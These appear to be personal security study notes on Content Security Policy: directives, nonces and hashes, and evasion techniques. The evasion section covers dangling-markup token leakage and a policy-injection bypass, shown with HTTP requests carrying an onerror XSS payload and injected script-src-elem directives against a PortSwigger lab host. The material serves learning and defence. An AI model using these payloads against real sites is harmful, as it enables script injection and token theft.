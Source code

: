 >[!summary]
>Content Security Policy (CSP) is a detection and prevention mechanism that provides mitigation against attacks such as [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) [^1] and [Clickjacking](Clickjacking.md). CSP is usually implemented in the web server as a return header of the form: `Content-Security-Policy: policy` where policy is a string of policy directives separated by semicolons.

[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing#:~:text=Mitigating%20XSS%20using%20content%20security%20policy%20(CSP)

The CSP provides the client browser with information about permitted resources that a page can load or from which can be embedded in frames.

Some examples:
- `Content-Security-Policy: frame-ancestors 'self';`: CSP whitelists frames to the same domain only
- `Content-Security-Policy: frame-ancestors normal-website.com;`: framing restricted to a named site
- `Content-Security-Policy: script-src 'self';`: scripts are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: script-src https://scripts.normal-website.com;`: scripts are allowed only from a specific domain
- `Content-Security-Policy: img-src 'self';`: images are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: img-src https://scripts.normal-website.com;`: images are allowed only from a specific domain

In addition to whitelisting specific domains, content security policy also provides two other ways of specifying trusted resources: nonces and hashes:

- The CSP directive can specify a nonce (a random value) and the same value must be used in the tag that loads a script. If the values do not match, then the script will not execute. To be effective as a control, the nonce must be securely generated on each page load and not be guessable by an attacker.
- The CSP directive can specify a hash of the contents of the trusted script. If the hash of the actual script does not match the value specified in the directive, then the script will not execute. If the content of the script ever changes, then you will of course need to update the hash value that is specified in the directive.

## CSP Evasion

### Using `img` and dangling markup

It's quite common for a CSP to block resources like `script`. However, many CSPs do allow image requests. This means you can often use `img` elements to make requests to external servers in order to disclose [CSRF tokens](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#CSRF%20tokens), for example.

From the research: [Evading CSP with DOM-based dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)

![XSS + Dangling Markup + CSP bypass + CSRF](Cross-Site%20Scripting%20(XSS).md#XSS%20+%20Dangling%20Markup%20+%20CSP%20bypass%20+%20CSRF)

### Policy injection

You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives.

Default policy (noticed the `token` parameter in `report-uri`):
```http
GET /?search=<img+src+onerror=alert(1)> HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net



HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

The parameter can be controlled and arbitrary policies can be injected:
```http
GET /?search=<img+src+onerror=alert(1)>&token=filler;+foo+'bar' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; foo 'bar'
```

Normally, it's not possible to overwrite an existing `script-src` directive. However, Chrome recently introduced the `script-src-elem` [^script-src-element] directive, which allows you to control `script` elements, but not events.

[^script-src-element]: https://w3c.github.io/webappsec-csp/#directive-script-src-elem

```html
Content-Security-Policy: script-src-elem 'none'; script-src-attr 'unsafe-inline'

<script>alert("This will be blocked")</script>
<a href="#" onclick="alert('This will be allowed')">test</a>
```

Crucially, this new directive allows you to [overwrite existing `script-src` directives](https://portswigger.net/research/bypassing-csp-with-policy-injection).

```http
GET /?search=<img+src+onerror=alert(1)>&token=filler;+script-src-elem+'none'%3b+script-src-attr+'unsafe-inline' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; script-src-elem 'none'; script-src-attr 'unsafe-inline'
```

![](../../zzz_res/attachments/CSP-policy-injection.png)

Further examples:
- [eXtra Safe Security layers](../../Play%20ground/CTFs/eXtra%20Safe%20Security%20layers.md)

### Other techniques

- [AngularJS CSP bypass](../Dev,%20scripting%20&%20OS/AngularJS.md#AngularJS%20CSP%20bypass)
- [Ambushed by AngularJS: a hidden CSP bypass in Piwik PRO](https://portswigger.net/research/ambushed-by-angularjs-a-hidden-csp-bypass-in-piwik-pro)

